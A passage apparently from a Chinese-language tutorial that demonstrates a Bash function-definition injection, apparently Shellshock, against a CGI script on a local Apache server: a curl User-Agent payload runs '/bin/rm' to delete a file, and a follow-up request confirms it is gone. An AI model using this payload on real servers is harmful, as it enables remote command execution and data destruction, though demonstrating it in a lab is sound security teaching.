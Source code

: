```
SERVER_ADMIN=webmaster@localhost
HTTP_ACCEPT=*/*
REMOTE_ADDR=192.168.0.1
SHLVL=1
SERVER_NAME=192.168.0.1
SERVER_SOFTWARE=Apache/2.2.22 (Debian)
QUERY_STRING=
SERVER_ADDR=192.168.0.1
GATEWAY_INTERFACE=CGI/1.1
SERVER_PROTOCOL=HTTP/1.1
REQUEST_METHOD=GET
_=/usr/bin/env
</pre>
</body>
</html>

```

再来试试使用 curl 设置一个 user-agent 玩玩：

```
$ curl -A "() { :; }; /bin/rm /var/www/target" http://192.168.0.1/poc.cgi

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>500 Internal Server Error</title>
</head><body>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error or
misconfiguration and was unable to complete
your request.</p>
<p>Please contact the server administrator,
webmaster@localhost and inform them of the time the error occurred,
and anything you might have done that may have
caused the error.</p>
<p>More information about this error may be available
in the server error log.</p>
<hr>
<address>Apache/2.2.22 (Debian) Server at 192.168.0.1 Port 80</address>
</body></html>

```

上面已经把/var/www/target 给删除了，再来看看：

```
$ curl http://192.168.0.1/target

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /target was not found on this server.</p>
<hr>
<address>Apache/2.2.22 (Debian) Server at 192.168.0.1 Port 80</address>
</body></html>

```

